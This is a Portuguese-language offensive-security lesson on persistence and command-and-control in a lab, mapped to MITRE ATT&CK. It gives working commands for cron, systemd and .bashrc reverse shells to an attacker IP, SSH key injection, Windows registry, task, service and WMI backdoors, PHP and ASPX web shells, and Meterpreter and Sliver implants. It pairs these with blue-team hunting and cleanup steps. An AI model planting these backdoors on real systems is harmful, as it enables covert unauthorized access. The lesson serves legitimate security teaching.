



# Manutenção do Acesso

> [!quote] Persistência no Alvo
> *Após comprometer um sistema, atacantes estabelecem mecanismos para manter acesso mesmo após reinicializações ou atualizações. 80% das técnicas no Red Report 2026 envolvem evasão de defesa, persistência e C2.*

---

## 🎯 O que é?

> [!warning] Fase do Pentest
> **Manutenção do acesso** (Maintaining Access) é a fase em que o atacante estabelece mecanismos de **persistência** para garantir acesso contínuo ao sistema comprometido. No modelo MITRE ATT&CK, esta fase corresponde à tática **TA0003 (Persistence)** e à tática **TA0011 (Command and Control)**.

A persistência resolve o problema fundamental do atacante: conexões reversas caem, sistemas reiniciam, sessões expiram. Sem persistência, cada reconexão exige explorar a vulnerabilidade novamente.

### Objetivos

| Objetivo | Descrição |
|----------|-----------|
| **Persistência** | Sobreviver a reinicializações e mudanças de senha |
| **Redundância** | Múltiplos pontos de acesso independentes |
| **Discrição** | Evitar detecção por EDR, SIEM, analista |
| **Escalabilidade** | Movimentação lateral para outros hosts |
| **C2** | Canal de comando e controle estável |

> [!info] Lei Aplicável
> O art. **154-A do Código Penal** (Lei 12.737/2012, "Lei Carolina Dieckmann") tipifica invasão de dispositivo informático alheio. Qualquer técnica desta aula é **crime se aplicada fora de ambiente autorizado**. Em lab com suas próprias VMs: totalmente legal e educacional.

---

## 🗺️ Mapa Mental: Mecanismos de Persistência



---

## 🛠️ Técnicas de Persistência: MITRE ATT&CK TA0003

> [!info] Referência MITRE
> O MITRE ATT&CK tem **23 técnicas e 93 sub-técnicas** em TA0003. As mais exploradas em 2025-2026 são listadas abaixo com comando de lab e detecção blue team.

### Linux: Tabela Completa (MITRE + Comandos)

| Técnica MITRE | Sub-técnica | Comando no Lab | Detecção (Blue Team) |
|---------------|-------------|----------------|----------------------|
| **T1053.003** | Cron Job | `crontab -e` / `echo "* * * * * /tmp/rev.sh" >> /etc/crontab` | `auditd` rule on crontab write; `ausearch -f /etc/crontab` |
| **T1543.002** | Systemd Service | `systemctl enable malicious.service` | `systemctl list-units --state=enabled`; journalctl novo serviço |
| **T1098.004** | SSH Authorized Keys | `echo "ssh-rsa AAAA..." >> ~/.ssh/authorized_keys` | Monitorar `~/.ssh/authorized_keys` via inotify/AIDE |
| **T1546.004** | Shell Profile | `echo "nohup /tmp/rev.sh &" >> ~/.bashrc` | Diff de `~/.bashrc`/`~/.bash_profile` vs baseline |
| **T1037.004** | RC Scripts | `echo "/tmp/backdoor &" >> /etc/rc.local` | `diff /etc/rc.local` vs baseline salvo |
| **T1014** | Rootkit | LKM malicioso via `insmod` | `lsmod`; verificação de integridade do kernel; rkhunter |

### Windows: Tabela Completa (MITRE + Comandos)

| Técnica MITRE | Sub-técnica | Comando no Lab | Detecção (Blue Team) |
|---------------|-------------|----------------|----------------------|
| **T1547.001** | Registry Run Keys | `reg add HKCU\...\Run /v Update /d "C:\backdoor.exe"` | Autoruns; monitoramento de chaves Run via Sysmon Event ID 13 |
| **T1053.005** | Scheduled Tasks | `schtasks /create /tn "WindowsUpdate" /tr "C:\back.exe" /sc onstart /ru SYSTEM` | `schtasks /query /fo LIST`; Sysmon Event ID 1 |
| **T1543.003** | Windows Service | `sc create WinSvc binPath="C:\back.exe" start=auto` | `sc query state=all`; Sysmon Event ID 7 (image load) |
| **T1546.003** | WMI Event Subscription | `wmic /namespace:"\root\subscription" ...` | `wmic /namespace:"\root\subscription" path __EventFilter get`; EventID 5857/5858/5861 |
| **T1546.015** | COM Hijacking | Registro de CLSID em `HKCU\...\InprocServer32` | Procmon filtrando `RegSetValue` em `HKCU\CLSID`; Autoruns aba COM |
| **T1547.009** | Shortcut Modification | LNK em `%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\` | Monitorar pasta Startup via FIM |

---

## 🐧 Persistência no Linux: Passo a Passo

### 1. Cron Job Malicioso

O cron é o agendador de tarefas do Linux. Existem múltiplos locais onde tarefas são lidas:

```bash
# Verificar crons existentes (reconhecimento defensivo)
crontab -l
cat /etc/crontab
ls -la /etc/cron.d/
ls -la /etc/cron.hourly/ /etc/cron.daily/

# Adicionar backdoor que reconecta a cada minuto (como ATACANTE no lab)
(crontab -l 2>/dev/null; echo "* * * * * /bin/bash -i >& /dev/tcp/192.168.56.1/4444 0>&1") | crontab -

# Alternativa: cron oculto no /etc/cron.d/
echo "* * * * * root /tmp/.hidden_shell" > /etc/cron.d/.systemupdate

# Verificar se foi inserido
crontab -l
```

> [!caution] Sintaxe do Cron
> `* * * * *` significa "todo minuto". Formato: `minuto hora dia-do-mês mês dia-da-semana`. Exemplos: `@reboot` executa uma vez na inicialização; `0 */4 * * *` executa a cada 4 horas.

### 2. Systemd Service Backdoor

O systemd é o sistema de inicialização padrão em distribuições modernas (Ubuntu, Debian, CentOS, Kali). Criar um serviço garante persistência mesmo após reboot.

```bash
# Criar script de payload
cat > /tmp/rshell.sh << 'EOF'
#!/bin/bash
while true; do
  /bin/bash -i >& /dev/tcp/192.168.56.1/4444 0>&1
  sleep 60
done
EOF
chmod +x /tmp/rshell.sh

# Criar unit file do serviço
cat > /etc/systemd/system/network-sync.service << 'EOF'
[Unit]
Description=Network Synchronization Service
After=network.target

[Service]
Type=simple
ExecStart=/tmp/rshell.sh
Restart=always
RestartSec=30

[Install]
WantedBy=multi-user.target
EOF

# Habilitar e iniciar o serviço
systemctl daemon-reload
systemctl enable network-sync.service
systemctl start network-sync.service

# Verificar status
systemctl status network-sync.service
```

Para remover após o teste:

```bash
systemctl stop network-sync.service
systemctl disable network-sync.service
rm /etc/systemd/system/network-sync.service
systemctl daemon-reload
```

### 3. SSH Authorized Keys

A injeção de chave SSH é um dos mecanismos mais elegantes de persistência: bypassa autenticação por senha, sobrevive a mudanças de senha e é silenciosa (não gera processo filho suspeito).

```bash
# ATACANTE: gerar par de chaves na máquina do atacante
ssh-keygen -t ed25519 -f /tmp/lab_key -N ""
cat /tmp/lab_key.pub
# Saída: ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAA...

# ATACANTE: injetar chave pública no alvo (após obter acesso inicial)
mkdir -p ~/.ssh
chmod 700 ~/.ssh
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAA..." >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys

# Para root (se for root):
mkdir -p /root/.ssh
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAA..." >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys

# Reconectar usando a chave (na máquina atacante):
ssh -i /tmp/lab_key usuario@192.168.56.100
```

### 4. .bashrc / Profile Hook

Persistência de baixo impacto que dispara quando o usuário abre um novo terminal ou faz login interativo:

```bash
# Adicionar payload no .bashrc do usuário alvo
echo 'nohup /bin/bash -i >& /dev/tcp/192.168.56.1/4444 0>&1 &' >> ~/.bashrc

# Forma mais discreta com verificação se já está rodando
cat >> ~/.bashrc << 'EOF'
if ! pgrep -f "rshell" > /dev/null; then
  nohup bash -c 'while true; do bash -i >& /dev/tcp/192.168.56.1/4444 0>&1; sleep 30; done' &>/dev/null &
fi
EOF
```

---

## 🪟 Persistência no Windows: Passo a Passo

### 1. Registry Run Keys

As chaves Run do Registro são executadas automaticamente no login do usuário (HKCU) ou na inicialização do sistema (HKLM).

```powershell
# CMD: adicionar chave Run no usuário atual (sem privilégio admin)
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "WindowsHelper" /t REG_SZ /d "C:\Users\Public\update.exe" /f

# Verificar
reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Run"

# PowerShell equivalente
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" `
  -Name "WindowsHelper" -Value "C:\Users\Public\update.exe"

# HKLM (precisa de admin):
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v "SysUpdate" /t REG_SZ /d "C:\Windows\Temp\svc.exe" /f
```

### 2. Scheduled Tasks (Tarefas Agendadas)

```cmd
# Criar tarefa que roda no boot com privilégio SYSTEM
schtasks /create /tn "MicrosoftEdgeUpdate" /tr "C:\Windows\Temp\payload.exe" /sc onstart /ru SYSTEM /f

# Criar tarefa que roda a cada minuto
schtasks /create /tn "WindowsDefenderUpdate" /tr "C:\Windows\Temp\payload.exe" /sc minute /mo 1 /ru SYSTEM /f

# Listar todas as tarefas
schtasks /query /fo LIST /v | findstr "Task To Run"

# Deletar após teste
schtasks /delete /tn "MicrosoftEdgeUpdate" /f
```

PowerShell (mais furtivo):

```powershell
$action  = New-ScheduledTaskAction -Execute "C:\Windows\Temp\payload.exe"
$trigger = New-ScheduledTaskTrigger -AtStartup
$settings = New-ScheduledTaskSettingsSet -Hidden
Register-ScheduledTask -TaskName "MicrosoftEdgeUpdate" -Action $action `
  -Trigger $trigger -Settings $settings -RunLevel Highest -Force
```

### 3. Windows Service

```cmd
# Criar serviço persistente
sc create "WinNetHelper" binPath= "C:\Windows\Temp\payload.exe" start= auto DisplayName= "Windows Network Helper"
sc description "WinNetHelper" "Provides network connectivity services"
sc start "WinNetHelper"

# Verificar
sc query "WinNetHelper"
sc qc "WinNetHelper"

# Remover após teste
sc stop "WinNetHelper"
sc delete "WinNetHelper"
```

### 4. WMI Event Subscription (Avançado)

WMI subscriptions são especialmente difíceis de detectar porque não aparecem em Autoruns com configuração padrão:

```powershell
# Criar subscription que executa payload quando o usuário faz login
$filterName   = "BackdoorFilter"
$consumerName = "BackdoorConsumer"
$filterQuery  = "SELECT * FROM __InstanceCreationEvent WITHIN 5 WHERE TargetInstance ISA 'Win32_LogonSession'"

$filter   = Set-WmiInstance -Class __EventFilter -NameSpace "root\subscription" `
              -Arguments @{Name=$filterName; EventNameSpace="root\cimv2"; QueryLanguage="WQL"; Query=$filterQuery}

$consumer = Set-WmiInstance -Class CommandLineEventConsumer -NameSpace "root\subscription" `
              -Arguments @{Name=$consumerName; CommandLineTemplate="C:\Windows\Temp\payload.exe"}

$binding  = Set-WmiInstance -Class __FilterToConsumerBinding -NameSpace "root\subscription" `
              -Arguments @{Filter=$filter; Consumer=$consumer}

# Detectar (Blue Team):
Get-WMIObject -Namespace root/subscription -Class __EventFilter | Select-Object Name, Query
Get-WMIObject -Namespace root/subscription -Class __EventConsumer | Select-Object Name
```

---

## 🌐 Web Shells

Uma web shell é um script colocado num servidor web que permite execução remota de comandos via HTTP. É persistência via camada de aplicação, independente de cron ou registry.

### Por que Web Shells são Perigosos

- Passam pelo firewall (porta 80/443 aberta)
- Não precisam de VPN ou port forward
- Sobrevivem a reinicializações completas do sistema
- Em 2025-2026, ataques via web shell cresceram com CVEs em CMSs populares (EncystPHP via CVE-2025-64328, INJ3CTOR3 crew)

### Web Shell PHP

```php
<?php
// Shell minimalista (evitar em lab por simplicidade)
system($_GET['cmd']);
?>

// Uso: http://alvo/uploads/shell.php?cmd=id

// Shell com autenticação básica (mais realista)
<?php
if(md5($_POST['pass']) == '1a1dc91c907325c69271ddf0c944bc72') {
    system($_POST['cmd']);
}
?>

// Uso via curl:
// curl -X POST http://alvo/shell.php -d "pass=p4ssw0rd&cmd=id"
```

### Web Shell ASPX (.NET)

```aspx
<%@ Page Language="C#" %>
<%
  System.Diagnostics.Process p = new System.Diagnostics.Process();
  p.StartInfo.FileName = "cmd.exe";
  p.StartInfo.Arguments = "/c " + Request["cmd"];
  p.StartInfo.UseShellExecute = false;
  p.StartInfo.RedirectStandardOutput = true;
  p.Start();
  Response.Write(p.StandardOutput.ReadToEnd());
%>
```

### Upload de Web Shell via CMS

Vetores comuns em 2025:

```bash
# WordPress: via plugin/tema editor ou upload de plugin malicioso
# Depois de obter credenciais admin:
# Appearance > Theme File Editor > functions.php > adicionar <?php system($_GET['cmd']); ?>

# Joomla: via Extension Manager, upload de zip contendo shell
# Drupal: via módulo malicioso

# Testar se shell está ativa:
curl "http://192.168.56.100/wp-content/themes/twentytwenty/shell.php?cmd=id"
# Esperado: uid=33(www-data) gid=33(www-data)
```

> [!warning] Em Lab
> Nunca hospedar web shells em servidores com acesso externo. Testar somente em VMs isoladas em rede NAT ou Host-Only.

---

## 🕹️ Meterpreter: Persistência Automatizada

O Metasploit tem módulos dedicados para instalar persistência após obter uma sessão Meterpreter.

### Fluxo C2 com Meterpreter



### Comandos Meterpreter

```bash
# Após obter sessão Meterpreter no Metasploit:
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.56.1
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > exploit -j

# Na sessão Meterpreter ativa:
meterpreter > run persistence -U -i 30 -p 4444 -r 192.168.56.1
# -U: persistência no login do usuário
# -i 30: tenta reconectar a cada 30 segundos
# -p: porta do listener
# -r: IP do atacante

# Alternativa: módulo post mais moderno
meterpreter > background
msf6 > use post/windows/manage/persistence_exe
msf6 post(windows/manage/persistence_exe) > set SESSION 1
msf6 post(windows/manage/persistence_exe) > set STARTUP REGISTRY
msf6 post(windows/manage/persistence_exe) > run
```

> [!tip] Persistência no Linux via Meterpreter
> ```bash
> meterpreter > run post/linux/manage/cron_persistence LHOST=192.168.56.1 LPORT=4444
> ```

---

## 🦅 Sliver C2: Framework Open Source Moderno (2025-2026)

O **Sliver** (BishopFox) é o framework C2 open source mais popular em operações red team modernas, substituto ao Cobalt Strike para labs educacionais. Escrito em Go, multiplataforma, com implants em memória.

### Instalação do Sliver (Servidor)

```bash
# Instalar no Kali/Ubuntu
curl https://sliver.sh/install | sudo bash
# ou via release binário:
wget https://github.com/BishopFox/sliver/releases/latest/download/sliver-server_linux -O sliver-server
chmod +x sliver-server
sudo ./sliver-server

# Iniciar console interativo
sliver-server
```

### Gerar Implant e Configurar Listener

```bash
# No console do Sliver:

# Iniciar listener HTTPS persistente
sliver > https --lhost 192.168.56.1 --lport 443 --persist

# Gerar implant (beacon) para Windows
sliver > generate --http 192.168.56.1 --os windows --arch amd64 --format exe --name update-helper
# Arquivo gerado: update-helper.exe

# Gerar implant para Linux
sliver > generate --http 192.168.56.1 --os linux --arch amd64 --format elf --name svc-update
# Arquivo gerado: svc-update

# Gerar shellcode (para injeção em processo legítimo)
sliver > generate --http 192.168.56.1 --format shellcode --name beacon-sc
```

### Persistência via Sliver

```bash
# Após vítima executar o implant e sessão aparecer no Sliver:
sliver > sessions
# [*] Active Sessions
# ID        Name        Transport   RemoteAddress          Hostname   User    OS
# 5b123e9d  BOLD_SHARK  http(s)     192.168.56.100:52341   WIN10LAB   admin   windows/amd64

sliver > use 5b123e9d

# Persistência via serviço Windows
[BOLD_SHARK] sliver > persistence service --name "WinNetHelper" --path "C:\Windows\Temp\update-helper.exe"

# Persistência via registry
[BOLD_SHARK] sliver > persistence registry --hive HKCU \
  --path "Software\Microsoft\Windows\CurrentVersion\Run" \
  --key "WindowsUpdate" --value "C:\Windows\Temp\update-helper.exe"

# Reconexão automática (perfil de beacon com intervalo longo e jitter)
sliver > profiles new --http 192.168.56.1 --format exe --name long-haul
sliver > profiles beacon-interval --profile long-haul --seconds 3600 --jitter 600
# Beacon checkin a cada 1h com ±10min de jitter (simula tráfego legítimo)
```

### Diagrama de Comunicação C2



---

## ⚔️ Cobalt Strike: Conceitos para Red Team

O **Cobalt Strike** é a ferramenta comercial mais usada por APTs e red teams profissionais. Entender seus conceitos é essencial para defender contra ele.

> [!info] Acesso em Lab
> Cobalt Strike é pago (~US\$5.900/ano). Em labs educacionais: usar **Sliver** (gratuito, código aberto) para praticar os mesmos conceitos. Cobalt Strike é estudado conceitualmente aqui.

### Arquitetura Cobalt Strike

| Componente | Função |
|------------|--------|
| **Team Server** | Servidor C2 central; opera na nuvem ou VPS |
| **Cobalt Strike Client** | Interface do operador (GUI Java) |
| **Beacon** | Implant leve instalado no alvo |
| **Listener** | Ponto de entrada de conexões (HTTP/S, DNS, SMB) |
| **Malleable C2** | Perfil que disfarça tráfego como jQuery, CDN, APIs legítimas |

### Técnicas Avançadas do Cobalt Strike

| Técnica | Descrição | Defesa |
|---------|-----------|--------|
| **Sleep/Jitter** | Beacon fica dormindo por horas, acorda aleatoriamente | Detecção por análise de padrão de beaconing |
| **Malleable C2** | Tráfego parece requisições legítimas (ex: CDN, Amazon S3) | Deep packet inspection, JA3 fingerprinting |
| **Process Injection** | Injeta shellcode em `explorer.exe`, `svchost.exe` | Sysmon Event ID 8 (CreateRemoteThread) |
| **BOF (Beacon Object Files)** | Módulos executados em memória sem tocar disco | Monitoramento de chamadas de API via EDR |
| **SMB Pipe Pivoting** | Comunicação lateral via named pipes (sem rede) | Monitoramento de named pipes incomuns |

---

## 🔵 Blue Team: Detecção de Persistência

> [!success] Defesa Ativa
> O blue team deve assumir que o sistema já está comprometido e buscar ativamente por persistência, não apenas reagir a alertas.

### Ferramentas de Detecção

| Ferramenta | SO | O que Detecta |
|------------|----|----------------|
| **Autoruns (Sysinternals)** | Windows | Todas as entradas de autostart (Run keys, serviços, drivers, WMI, COM hijacking) |
| **Sysmon** | Windows | Criação de processos, conexões de rede, criação de serviços, modificações de registry |
| **auditd** | Linux | Syscalls, acesso a arquivos críticos, execução de comandos |
| **AIDE / Tripwire** | Linux | File Integrity Monitoring (FIM), detecta alterações em arquivos do sistema |
| **rkhunter / chkrootkit** | Linux | Detecção de rootkits e backdoors conhecidos |
| **OSQuery** | Multiplataforma | SQL-like queries para estado do sistema (crons, serviços, conexões) |
| **Velociraptor** | Multiplataforma | DFIR e hunting em escala (busca artefatos de persistência em toda a rede) |

### Comandos de Hunting: Linux

```bash
# Verificar todos os cron jobs do sistema
crontab -l
for user in $(cut -d: -f1 /etc/passwd); do
  echo "=== $user ==="; crontab -u $user -l 2>/dev/null
done
ls -la /etc/cron* /var/spool/cron/crontabs/

# Verificar serviços habilitados (hunting de serviços suspeitos)
systemctl list-units --state=enabled --type=service
systemctl list-unit-files --state=enabled | grep -v "^UNIT"

# Verificar chaves SSH de todos os usuários
find /home /root -name "authorized_keys" -exec echo "=== {} ===" \; -exec cat {} \;

# Verificar arquivos modificados recentemente em locais críticos
find /etc /bin /usr/bin /usr/sbin -mtime -7 -type f 2>/dev/null

# Buscar por web shells (PHP suspeitos)
find /var/www /srv/http -name "*.php" -newer /var/www/html/index.php 2>/dev/null
grep -r "system\|exec\|shell_exec\|passthru\|base64_decode" /var/www/ --include="*.php" -l

# Verificar conexões ativas e processos com conexão de rede
ss -tulpn
netstat -tulpn
lsof -i -n -P | grep ESTABLISHED
```

### Comandos de Hunting: Windows

```powershell
# Listar todas as entradas Run e RunOnce (manual)
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce

# Listar serviços suspeitos (início automático, sem assinatura Microsoft)
Get-Service | Where-Object {$_.StartType -eq "Automatic"} |
  Select-Object Name, DisplayName, Status

# Listar tarefas agendadas com detalhe
Get-ScheduledTask | Where-Object {$_.State -ne "Disabled"} |
  Select-Object TaskName, TaskPath, State

# WMI subscriptions ativas
Get-WMIObject -Namespace root/subscription -Class __EventFilter
Get-WMIObject -Namespace root/subscription -Class __EventConsumer
Get-WMIObject -Namespace root/subscription -Class __FilterToConsumerBinding

# Verificar Startup folders
dir "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup"
dir "$env:ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

> [!tip] Autoruns é a Melhor Ferramenta Windows
> Baixar [Sysinternals Autoruns](https://docs.microsoft.com/en-us/sysinternals/downloads/autoruns), executar como Administrator, habilitar "Check VirusTotal.com" nas opções. Qualquer entrada sem assinatura digital ou com hash desconhecido no VirusTotal merece investigação.

### Baseline: A Defesa Fundamental

A detecção de persistência depende de conhecer o estado **normal** do sistema. Sem baseline, é impossível distinguir o que foi adicionado.

```bash
# Criar baseline de serviços Linux
systemctl list-unit-files --state=enabled > /root/baseline-services-$(date +%Y%m%d).txt

# Criar baseline de crons
for user in $(cut -d: -f1 /etc/passwd); do
  crontab -u $user -l 2>/dev/null >> /root/baseline-cron-$(date +%Y%m%d).txt
done

# Criar baseline de SSH keys
find /home /root -name "authorized_keys" -exec cat {} \; > /root/baseline-sshkeys-$(date +%Y%m%d).txt

# Comparar com baseline (após suspeita de comprometimento)
diff /root/baseline-services-20260101.txt <(systemctl list-unit-files --state=enabled)
```

---

## 🧪 Atividades de Lab

> [!example] 🧪 Atividade 1: Persistência via Cron Job + Prova de Reconexão (Linux)

**Objetivo:** Criar persistência via cron numa VM Linux e provar que a sessão é restaurada após reboot.

**Pré-requisitos:** 2 VMs em rede Host-Only. Kali (192.168.56.1) e Ubuntu/Debian alvo (192.168.56.100). Acesso SSH ao alvo.

**Passo a passo:**

```bash
# --- KALI (atacante): abrir listener ---
nc -lvnp 4444
# Deixar aberto em terminal separado

# --- ALVO (simular acesso inicial): ---
ssh usuario@192.168.56.100

# Injetar cron de persistência
(crontab -l 2>/dev/null; echo "* * * * * bash -i >& /dev/tcp/192.168.56.1/4444 0>&1") | crontab -

# Confirmar que foi adicionado
crontab -l

# Reiniciar a VM alvo
sudo reboot
```

**Aguardar 1-2 minutos após o reboot. Verificar no Kali:**

```bash
# No Kali (onde nc -lvnp 4444 estava rodando):
# Esperado: "connect to [192.168.56.1] from (UNKNOWN) [192.168.56.100]"
# Seguido de shell: bash-5.1$

# Prova de reconexão:
id
# uid=1000(usuario) gid=1000(usuario) groups=...
hostname
# ubuntu-alvo
```

**Prova de sucesso:** Receber shell no netcat APÓS o reboot sem nenhuma ação adicional.

**Limpeza:**
```bash
# Remover o cron malicioso (no alvo)
crontab -l | grep -v "192.168.56.1" | crontab -
crontab -l  # deve estar vazio ou sem a linha
```

**Tarefa adicional (Defesa):** Usar `auditd` ou simplesmente `crontab -l` para identificar e remover a persistência. Documentar o tempo entre instalar e detectar.

---

> [!example] 🧪 Atividade 2: Persistência via SSH Authorized Key + Reconexão

**Objetivo:** Injetar chave SSH no alvo e provar que é possível reconectar mesmo após mudança de senha.

**Passo a passo:**

```bash
# --- KALI: gerar chave ed25519 para o ataque ---
ssh-keygen -t ed25519 -f /tmp/lab_attack_key -N ""
cat /tmp/lab_attack_key.pub
# Copiar a saída: ssh-ed25519 AAAA...

# --- ALVO: injetar chave (simula acesso inicial) ---
ssh usuario@192.168.56.100
mkdir -p ~/.ssh && chmod 700 ~/.ssh
echo "ssh-ed25519 AAAA..." >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
exit

# Simular defesa do admin: mudar a senha do usuário
ssh usuario@192.168.56.100
passwd  # mudar para uma senha forte diferente
exit

# --- KALI: tentar reconectar com SENHA (deve falhar se configurado bem) ---
ssh usuario@192.168.56.100  # prompt de senha

# --- KALI: reconectar com a CHAVE INJETADA (deve funcionar!) ---
ssh -i /tmp/lab_attack_key usuario@192.168.56.100
```

**Prova de sucesso:** Conexão SSH funciona via chave mesmo após mudança de senha.

**Detecção (Blue Team):**

```bash
# No alvo: verificar authorized_keys
cat ~/.ssh/authorized_keys
# Identificar chave desconhecida (fingerprint diferente das suas)

# Verificar fingerprint de cada chave
ssh-keygen -l -f ~/.ssh/authorized_keys

# Remover a chave maliciosa
sed -i '/AAAA.*/d' ~/.ssh/authorized_keys
# ou editar manualmente e remover a linha suspeita
```

---

> [!example] 🧪 Atividade 3: Meterpreter run persistence + Identificação com Autoruns

**Objetivo:** Usar `run persistence` do Meterpreter num alvo Windows e identificar a entrada com Autoruns (Sysinternals).

**Pré-requisitos:** Kali com Metasploit; VM Windows 10 (com Defender desabilitado para o lab); Sysinternals Autoruns no Windows.

**Passo a passo:**

```bash
# --- KALI: Gerar payload e iniciar handler ---
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=4444 -f exe -o /tmp/lab_payload.exe

# Servir o arquivo via HTTP
python3 -m http.server 8080 &

# Iniciar handler
msfconsole -q
msf6 > use exploit/multi/handler
msf6 > set payload windows/meterpreter/reverse_tcp
msf6 > set LHOST 192.168.56.1
msf6 > set LPORT 4444
msf6 > exploit -j
```

```powershell
# --- Windows alvo: baixar e executar payload (simula vítima clicando em link) ---
Invoke-WebRequest -Uri "http://192.168.56.1:8080/lab_payload.exe" -OutFile "C:\Users\Public\lab_payload.exe"
Start-Process "C:\Users\Public\lab_payload.exe"
```

```bash
# --- KALI: após sessão abrir ---
msf6 > sessions -l
msf6 > sessions -i 1

# Instalar persistência
meterpreter > run persistence -U -i 30 -p 4444 -r 192.168.56.1
# Metasploit mostrará a chave de Registry criada
# Ex: [+] Persistent agent installed in HKCU\Software\Microsoft\Windows\CurrentVersion\Run\yWktnBXb

# Simular reboot
meterpreter > reboot
```

```powershell
# --- Windows: após reboot, Meterpreter reconecta automaticamente ---
# Aguardar 30-60 segundos
```

```bash
# --- KALI: nova sessão deve aparecer ---
msf6 > sessions -l
# [*] Active sessions
# 1  meterpreter x86/windows  WINLAB\usuario @ WINLAB  192.168.56.100:52xxx -> 192.168.56.1:4444
```

**Detecção com Autoruns:**

No Windows alvo, abrir **Autoruns** como Administrator:
1. Aba "Logon" (ou Ctrl+F para buscar o nome da chave)
2. Localizar entrada em `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
3. Entrada sem Publisher/assinatura = suspeita
4. Verificar o hash no VirusTotal (opção Options > Scan Options)

**Limpeza:**
```bash
meterpreter > run multi_console_command -rc /tmp/cleanup.rc
# ou manualmente deletar a chave Registry no Windows Regedit
```

---

## 📊 Resumo: Mapa de Defesa vs Ataque

| Técnica Atacante | MITRE | SO | Detecção Blue Team | Ferramenta |
|-----------------|-------|----|--------------------|------------|
| Cron job reverso | T1053.003 | Linux | `crontab -l` + auditd | auditd, osquery |
| Systemd backdoor | T1543.002 | Linux | `systemctl list-units` | systemd journal, AIDE |
| SSH key injection | T1098.004 | Linux | `cat authorized_keys` + diff | inotify, AIDE |
| .bashrc hook | T1546.004 | Linux | Diff vs baseline | auditd, FIM |
